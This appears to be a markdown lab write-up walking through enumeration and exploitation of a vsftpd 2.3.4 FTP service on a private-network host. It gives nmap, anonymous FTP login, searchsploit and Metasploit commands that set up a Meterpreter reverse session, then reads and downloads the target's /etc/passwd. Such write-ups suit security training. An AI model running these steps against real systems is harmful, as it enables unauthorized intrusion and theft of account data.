








# FTP Enumeration & Exploitation

## Initial Nmap Scan

```bash
nmap -sV -sC -p21 192.168.0.110
```

- Performed an initial service enumeration scan against the FTP service running on port 21.
- Identified the FTP service version.
- Detected anonymous login access enabled.
- Retrieved FTP banner information.
- Identified a vulnerable FTP software version.

- 
  ___

   ## Anonymous FTP Authentication

```bash
ftp 192.168.0.110
```

- Connected to the FTP service using anonymous authentication.
- Verified that anonymous login access was permitted on the target system.

- 
  ___

  ## Exploit Research Using Searchsploit

```bash
searchsploit vsftpd 2.3.4
```

- Used Searchsploit to identify publicly available exploits related to the detected FTP service version.
- Identified a relevant exploit module available within the Metasploit Framework.

- 

  ___

  ## Metasploit Exploitation

```bash
msfconsole
```

- Launched the Metasploit Framework.
- Searched for the appropriate exploit module related to the vulnerable FTP version.

 ```bash
show options
```

- Reviewed the required exploit module configuration options.
- Configured `RHOSTS`, `LHOST`, and `LPORT` accordingly.
- Executed the exploit successfully and established a Meterpreter session.

```bash
set RHOSTS 192.168.0.110
set LHOST 192.168.0.XXX
set LPORT 4443
```



___

## Post Exploitation Enumeration

```bash
ls -la
```

- Enumerated directories and files available on the compromised target system.

- 

  ___

  ## Sensitive File Enumeration

```bash
cat /etc/passwd
```

- Retrieved user account information from the target system for further analysis.



---

## Downloading Sensitive Files

```bash
download /etc/passwd
```

- Successfully downloaded the `/etc/passwd` file from the target system for offline analysis.





